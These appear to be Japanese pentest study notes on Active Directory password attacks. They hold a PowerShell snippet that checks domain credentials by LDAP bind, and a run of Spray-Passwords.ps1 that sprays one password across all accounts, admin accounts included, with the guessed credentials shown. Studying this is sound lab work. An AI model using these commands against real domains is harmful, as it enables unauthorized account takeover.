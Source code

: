 #### powershellを利用したログイン試行

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "lab")
```

* あっている場合

  ```powershell
  PS C:\Tools\active_directory> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin",
   "lab")
  distinguishedName : {DC=corp,DC=com}
  Path              : LDAP://DC01.corp.com/DC=corp,DC=com
  ```
  
* 間違っている場合

  ```powershell
  format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.
  "
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemExce
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.Forma
  ```

#### Spray-Passwords.ps1を利用する方法

https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

```
PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'adam' = 'Qwerty09!'
Guessed password for user: 'iis_service' = 'Qwerty09!'
Guessed password for user: 'sql_service' = 'Qwerty09!'
Users guessed are:
 'adam' with password: 'Qwerty09!'
 'iis_service' with password: 'Qwerty09!'
 'sql_service' with password: 'Qwerty09!'
PS C:\Tools\active_directory>
```

* -File：ワードリストファイル
* -Adminフラグ：管理者アカウントのテスト

### runasコマンド
